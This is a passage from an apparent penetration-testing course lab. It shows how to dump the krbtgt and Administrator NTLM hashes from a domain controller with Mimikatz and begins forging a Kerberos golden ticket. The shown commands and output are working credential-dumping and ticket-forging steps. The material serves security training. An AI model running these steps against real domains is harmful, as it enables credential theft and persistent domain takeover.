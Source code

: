 To simulate this, we'll log in to the domain controller with remote desktop using the *jeffadmin* account. Then we will run Mimikatz from **C:\\Tools**, and issue the [**lsadump::lsa**](https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump) command as displayed below:

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /patch
Domain : CORP / S-1-5-21-1987370270-658905905-1781884369

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2892d26cdf84d7a70e2eb3b9f05c425e

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 1693c6cefafffc7af11ef34d1c788f47
...
```

> Listing 35 - Dumping the krbtgt password hash using Mimikatz

Having obtained the NTLM hash of the *krbtgt* account, along with the domain SID, we can now forge and inject our golden ticket.

Creating the golden ticket and injecting it into memory does not require any administrative privileges and can even be performed from a computer that is not joined to the domain.

We'll take the hash and continue the procedure from a compromised workstation.

Let's move back to CLIENT74 as the *jen* user. Before we generate the golden ticket let's launch mimikatz and delete any existing Kerberos tickets with **kerberos::purge**.

```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK
```

> Listing 36 - Purging existing Kerberos Tickets

Now, we'll supply the domain SID (which we can gather with **whoami /user**) to the Mimikatz [**kerberos::golden**](https://github.com/gentilkiwi/mimikatz/wiki/module-~-kerberos) command to create the golden ticket.

This time, we'll use the **/krbtgt** option instead of **/rc4** to indicate we are supplying the password hash of the *krbtgt* user account. Starting July 2022, Microsoft improved the [*authentication process*](https://support.microsoft.com/en-gb/topic/kb5008380-authentication-updates-cve-2021-42287-9dafac11-e0d0-4cb8-959a-143bd0201041), so we'll need to provide an existing account. Let's set the golden ticket's username to **jen**. Before it didn't matter if the account existed.
